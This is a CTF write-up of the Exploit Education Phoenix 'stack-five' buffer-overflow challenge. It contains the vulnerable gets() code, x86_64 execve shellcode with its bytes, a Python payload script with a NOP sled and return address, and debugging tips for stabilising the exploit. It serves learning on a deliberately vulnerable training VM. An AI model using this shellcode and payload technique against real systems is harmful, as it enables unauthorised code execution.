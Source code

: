 ```yaml
---
date: 2024-10-15
categories:
  - ctf
tags:
  - exploit-education
  - write-up
  - security
comments: true
---
```


# Exploit Education: Stack Five

This blog is part of the
[exploit-education](https://exploit.education/phoenix/stack-five/) series. Here
I will be discussing the solution to the stack-five challenge from the phoenix
VM. I have completed this exploit for x86_64 architecture. <!-- stop -->

## Vulnerabilities

Below is the vulnerable code from the stack-five challenge:

```c
void start_level() {
  char buffer[128];
  gets(buffer);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

Buffer overflow vulnerability: The gets function is used to read input from the
user which does not check the size of the input.


## Exploitation

Thought process for exploitation:

* Find the return address offset to jump to the shellcode.
* Find the address of the shellcode using gdb.
* Create a payload that will have the shellcode for execve("/bin/sh", NULL,
  NULL) and the address of the shellcode as the return address.
* payload should not contain terminating newlines or EOF as `gets` and `fgets`
  terminate at newline or EOF.
* Use a NOP sled to make the exploit more stable.


`payload = nop sled + shellcode + nop sled + saved rbp (becomes the new rsp)
return address`

### Where to jump (Return address)

When looking for the return address, keep in mind that the pointer in rdi
register is updated by gets() function based on the number of bytes read.

!!! tip
    Try not to use the stack for shell code.

Jumping to an address not in the stack is more stable because there is a
difference in the environment between the debugger and the actual program.
The debugger loads environment variables which can alter the addresses in the
stack. Environment variables are located in the stack and heap so the sizes can
differ between different environments. [^1] [^2]
As per my debugging, even the environment between TMUX and plain terminal was
making a difference. TMUX introduces env variables.

One more thing to note is that the addresses also change depending on the way
the program is called.

!!! tip
    Use a NOP sled even before the shellcode due to environment differences.

### Environment differences between the debugger and shell

`./stack-five` and `/home/user/stack-five` have different addresses due to
change in the size of argv[0] which will affect the stack.

The debugger usually uses the complete path when running the program so the
offsets you find in the debugger when used directly on the binary will go higher
up in the stack which can lead to illegal instructions as they have gone above
your payload and not hitting the nop sled.


* To try and make the environment in the debugger and shell equal, use `unset
  env LINES` and `unset env COLUMNS`.
* Also `set env _=/home/user/stack-five` to set the `_` env variable in the
  debugger to what it would be when running the binary in shell.
* Also, use the complete path to the binary (to keep argv similar) when running
  the binary in shell because the debugger uses the complete path.

### Crafting the Shellcode

I took the shellcode from shell-storm.org
[Shellcode](https://shell-storm.org/shellcode/files/shellcode-909.html):

```asm
.intel_syntax noprefix

#execve("/bin/bash",{NULL},{NULL})

.text
.global _start
_start:
	mov rax, 0x68732f6e69622f
	push rax
	push rsp
	pop rdi
	xor eax, eax
	push rax
	mov al, 59
	push rsp
	pop rdx
	push rsp
	pop rsi
	syscall

# as -o sc.o sc.s
# objcopy -O binary -j .text sc.o sc.bin
# xxd -i -n sc sc.bin

# unsigned char sc[] = {
#   0x48, 0xb8, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x50, 0x54,
#   0x5f, 0x31, 0xc0, 0x50, 0xb0, 0x3b, 0x54, 0x5a, 0x54, 0x5e, 0x0f, 0x05
# };
# unsigned int sc_len = 24;

# Fnknda<joao[at]fukuda[dot]sh>
```

Save the shellcode in a file `sc.bin` and use it in the exploit.

```bash
as -o sc.o sc.s
objcopy -O binary -j .text sc.o sc.bin
```

### Exploit script

```python title="stack-five.py"
import sys

with open('sc.bin', "rb") as file:
    shellcode = file.read()

payload = b''
payload += b"\x90"*16
payload += shellcode
nop_len = 128 - len(payload) + 8 #rbp length = 8
payload += b"\x90"*nop_len
ret_address = b"\x00\xe6\xff\xff\xff\x7f\x00\x00"
payload += ret_address

sys.stdout.buffer.write(payload)
```

Exploit: `(python3 stack-five.py; cat ) | /home/user/stack-five`

**Exploit environment:**

* Works when I am on wsl and ssh into the machine with `ssh
user@127.0.0.1 -p 2222`.
* As checked it's not working on the qemu GUI.

You can see how below how length of argv affects the exploit.

![diff](res/img/phoenix_ss2.png)

### Making the exploit more stable

As checked in the debugger, the address of the buffer remains in rax register at
the end of the function call. So, if we can find the address of a `jmp rax`
instruction in the .text section then we can return to it to execute shellcode
reliably.

`objdump -d -j .text stack-five | grep -i 'jmp'`
Use ROPgadget for big or complex binaries and instructions.

Using the address of the `jmp rax` instruction as the return address, the
exploit worked in TMUX, shell, and qemu.

---

## Conclusion

Hope the write-up was helpful. If you have any queries or suggestions, feel free
to add them in the comments below.

[^1]: <https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/02/04/exploit-education-stack-five-exercise-writeup.html>
[^2]: <https://stackoverflow.com/questions/32771657/gdb-showing-different-address-than-in-code>

